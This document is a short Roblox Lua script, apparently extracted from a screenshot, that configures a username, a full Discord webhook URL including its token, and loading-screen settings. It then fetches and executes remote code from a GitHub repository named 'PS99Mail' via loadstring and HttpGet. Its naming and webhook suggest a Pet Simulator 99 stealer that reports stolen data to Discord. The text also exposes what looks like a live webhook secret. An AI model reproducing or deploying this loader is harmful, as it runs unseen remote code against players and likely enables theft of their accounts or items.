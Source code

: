 Username = "Somerandomguy3077"
Webhook = "https://discord.com/api/webhooks/1213726397583986739/xeeN47zi3C30O2hpZk4ssaDYGK5eRyOnxAFBwS9I56MJTJaNDfaaeiMV3XUdTGD4QX21"
selectedLoadingScreen = "4"
LoadingScreen = true


loadstring(game:HttpGet("https://raw.githubusercontent.com/LypherX/PS99Mail/main/Mementomori"))()```
